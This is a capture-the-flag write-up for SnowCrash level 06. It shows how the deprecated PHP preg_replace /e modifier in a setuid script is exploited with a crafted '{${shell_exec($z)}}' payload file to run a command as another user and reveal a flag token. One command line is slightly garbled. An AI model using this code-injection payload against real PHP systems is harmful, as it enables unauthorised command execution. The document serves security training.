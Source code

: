 # Level 06

When logging in to level 06, we can find two files in our home directory, a php file and a binary with the same name, both owned by `flag06`

```bash
level06@SnowCrash:~$ ls -lA
total 24
-r-x------  1 level06 level06  220 Apr  3  2012 .bash_logout
-r-x------  1 level06 level06 3518 Aug 30  2015 .bashrc
-rwsr-x---+ 1 flag06  level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06  level06  356 Mar  5  2016 level06.php
-r-x------  1 level06 level06  675 Apr  3  2012 .profile
```

```php
level06@SnowCrash:~$ cat level06.php
#!/usr/bin/php
<?php
function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
$r = x($argv[1], $argv[2]); print $r;
?>
```

At the first look, we can see the php script takes 2 command-line arguments, opens a file with the 1st one, makes some regex replacements on the content of the file, but the 2nd variable is unused

After experimenting with the binary with various arguments, we can see we get the same output whether we use the binary file or the php script.

### Exploit

This was a tricky one and needed a lot of documentation, when looking for the usage of the `/e` regex modifier, I found it was deprecated since a long time and the version of php on the machine was outdated

- https://stackoverflow.com/questions/16986331/can-someone-explain-the-e-regex-modifier
- https://stackoverflow.com/questions/19245205/replace-deprecated-preg-replace-e-with-preg-replace-callback

```bash
level06@SnowCrash:~$ php --version
PHP 5.3.10-1ubuntu3.19 with Suhosin-Patch (cli) (built: Jul  2 2015 15:05:54)
Copyright (c) 1997-2012 The PHP Group
Zend Engine v2.3.0, Copyright (c) 1998-2012 Zend Technologies
```

When learning about the vulnerabilites of this modifier, I found some examples of exploitation of it:

- https://security.stackexchange.com/questions/151142/understanding-preg-replace-filtering-exploitation
- http://www.madirish.net/402
- https://bitquark.co.uk/blog/2013/07/23/the_unexpected_dangers_of_preg_replace
- https://github.com/kacperszurek/exploits/blob/master/GitList/exploit-bypass-php-escapeshellarg-escapeshellcmd.md#argument-injection

To exploit it we firstly needed a text file which would be read by the binary, saved in the `$a` variable

```bash
level06@SnowCrash:~$ mktemp
/tmp/tmp.kiGPcYouaI

level06@SnowCrash:~$ chmod 777 /tmp/tmp.kiGPcYouaI
```

After some documentation about how to execute functions stocked in strings in php

- https://www.php.net/manual/fr/language.types.string.php

```bash
level06@SnowCrash:~$ echo '[x {${shell_exec($z)}}}]' > /tmp/tmp.kiGPcYouaI.1
level06@SnowCrash:~$ echo 'getflag' > /tmp/tmp.kiGPcYouaI.2

level06@SnowCrash:~$ ./level06 /tmp/tmp.kiGPcYouaI.1 $(cat /tmp/tmp.kiGPcp/tmp.kiGPcYouaI.2)
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
 in /home/user/level06/level06.php(4) : regexp code on line 1
}
```
